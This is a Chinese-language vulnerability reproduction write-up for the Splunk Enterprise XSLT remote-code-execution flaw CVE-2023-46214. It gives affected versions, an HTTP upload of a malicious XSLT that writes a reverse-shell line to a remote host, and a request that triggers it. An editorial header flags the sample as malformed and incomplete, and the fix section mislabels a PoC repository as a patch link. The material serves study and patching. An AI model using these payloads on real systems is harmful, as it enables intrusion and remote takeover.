






# 【成功复现】Splunk Enterprise XML Parsing 远程代码执行漏洞 (CVE-2023-46214)

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：已登录、上传权限、文称非SHC；9.0.0–9.0.6/9.1.0–9.1.1实验条件
- 证据范围：上传和渲染流程文字存在，但到执行shell.sh的后续触发缺失；仅写脚本不等于自动执行

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- xsl:text含原始&重定向字符，未转义/CDATA导致XML不合法
- multipart缺空行、Content-Disposition缺name/filename；样例无法原样使用
- 硬编码两个SID未解释关联，需说明登录cookie/form key的获取条件
- 8.8.8.8不是保留实验地址；Python脚本只有截图
- 官方公告与研究/PoC链接不要全部称补丁下载

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9F4xPc8pcp6ORW6djri31g)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

 **本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

Splunk 是美国 Splunk 公司的一套数据收集分析软件。该软件主要用于收集、索引和分析及其所产生的数据，包括所有 IT 系统和基础结构（物理、虚拟机和云）生成的数据。

Splunk Enterprise 9.0.0 到 9.0.6 版本、9.1.0 到 9.1.1 版本存在安全漏洞，该漏洞源于不会安全地清理用户提供的可扩展样式表语言转换 (XSLT)，攻击者利用该漏洞可以上传恶意 XSLT，从而在 Splunk Enterprise 实例上远程执行代码。


  

**0x02 影响版本**  

  

9.0.0 <= Splunk Enterprise <= 9.0.6 

9.1.0 <= Splunk Enterprise <= 9.1.1 

Splunk Cloud < 9.1.2308



**注：利用条件**

**具有上传权限；Splunk 未在 SHC 模式下运行**


  

**0x03 漏洞复现**  

  

1. 访问漏洞环境



2. 对漏洞进行复现

 **POC （POST）**

漏洞复现

```http
POST /en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl HTTP/1.1
Host: 10.211.55.3:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept-Encoding: gzip, deflate
Accept: text/javascript, text/html, application/xml, text/xml, */*
Connection: keep-alive
X-Requested-With: XMLHttpRequest
X-Splunk-Form-Key: 14405369367646981099
Cookie: session_id_8000=a74248449dd62e179dd17c05239d79708108da5f; splunkd_8000=O8DQPrZvhze8hbm7y^q^hgThhqSnx5RNXWEw7FU1lUbFUKO03x5n_DiqI0^m36KB2MZvtQxQpR^kgDUHFbcrxW4avet7juFQKvzaRbBDgARHZiZFqNiLaByswQCKCHIYmC; splunkweb_csrf_token_8000=14405369367646981099
Content-Length: 620
Content-Type: multipart/form-data; boundary=3d5f09288540918f033268ff6bceb049
--3d5f09288540918f033268ff6bceb049
Content-Disposition: form-data; 
Content-Type: application/xslt+xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:exsl="http://exslt.org/common" extension-element-prefixes="exsl">
  <xsl:template match="/">
    <exsl:document href="/opt/splunk/bin/scripts/shell.sh" method="text">
        <xsl:text>sh -i >& /dev/tcp/8.8.8.8/12388 0>&1</xsl:text>
    </exsl:document>
  </xsl:template>
</xsl:stylesheet>
--3d5f09288540918f033268ff6bceb049--

```

     上传 xsl 文件成功



解析文件

```http
GET /en-US/api/search/jobs/1700617012.37/results?xsl=/opt/splunk/var/run/splunk/dispatch/1700617012.36/shell.xsl HTTP/1.1
Host: 10.211.55.3:8000
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: session_id_8000=a74248449dd62e179dd17c05239d79708108da5f; splunkd_8000=O8DQPrZvhze8hbm7y^q^hgThhqSnx5RNXWEw7FU1lUbFUKO03x5n_DiqI0^m36KB2MZvtQxQpR^kgDUHFbcrxW4avet7juFQKvzaRbBDgARHZiZFqNiLaByswQCKCHIYmC; splunkweb_csrf_token_8000=14405369367646981099

```



3. 成功反弹 shell



3.python 脚本测试（漏洞存在）




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://advisory.splunk.com/advisories/SVD-2023-1104
https://blog.hrncirik.net/cve-2023-46214-analysis
https://github.com/nathan31337/Splunk-RCE-poc

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
